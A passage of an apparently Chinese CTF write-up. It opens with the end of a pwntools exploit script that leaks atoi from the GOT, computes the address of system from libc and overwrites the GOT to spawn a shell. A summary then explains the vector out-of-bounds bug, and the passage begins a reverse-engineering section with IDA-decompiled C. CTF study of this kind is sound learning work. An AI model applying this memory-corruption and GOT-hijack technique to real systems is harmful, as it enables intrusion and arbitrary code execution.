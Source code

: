 ```python
    sla("id: ",str(count))
    if flags:
        sla("id: ",str(end))
        sla("id: ",str(end))
    sla("number: ",str(num))
def show_all():
    sla("> ",str(5))
New(0x1)#0
New(0x4)#1

Over_write(0,4,0x405070) # atoi
# dbg()
Show(1,0)
libc = ELF("./libc.so.6")
ru("Number: ")
atoi = int(ru("\n",True),10)
print(hex(libc.symbols['system']))
system = atoi - libc.symbols["atoi"]+libc.symbols["system"]

Edit(1,0,system)

sla("> ",'sh\x00')

irt()
```
## 总结
在处理迭代器时，没有合理的判断迭代器范围，导致了指针越界。合理布局内存可以覆写 Vector 的结构体，执行任意内存读写，最终劫持 Got 表。比赛时没有深入看这道题，还要加强对Vector的结构体理解。总之发现此次比赛题目考点有相似的地方，且都不是很难，主要是自己对其利用方式还是不熟，不能发散的去结合程序思考利用方式，还是得多练习。
## 出题思路

1. 数组越界，vector结构体，no pie

# Re ->singin
ida打开直接得到flag。
# Re -> HappyCTF
## 题目分析
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // eax
  void *v4; // eax
  int result; // eax
  void *v6; // eax
  void *v7; // eax
  int v8; // [esp+5Ch] [ebp-70h]
  char *v9; // [esp+60h] [ebp-6Ch]
  char v10[27]; // [esp+6Ch] [ebp-60h] BYREF
  char v11; // [esp+87h] [ebp-45h]
  char *v12; // [esp+88h] [ebp-44h]
  char *v13; // [esp+8Ch] [ebp-40h]
  char *v14; // [esp+90h] [ebp-3Ch]
  _DWORD v15[3]; // [esp+98h] [ebp-34h] BYREF
  char v16[24]; // [esp+A4h] [ebp-28h] BYREF
  int v17; // [esp+C8h] [ebp-4h]

  sub_402930(v16);
  v17 = 0;
  v3 = (void *)output((int)&unk_4DDAF8, "please input flag");
```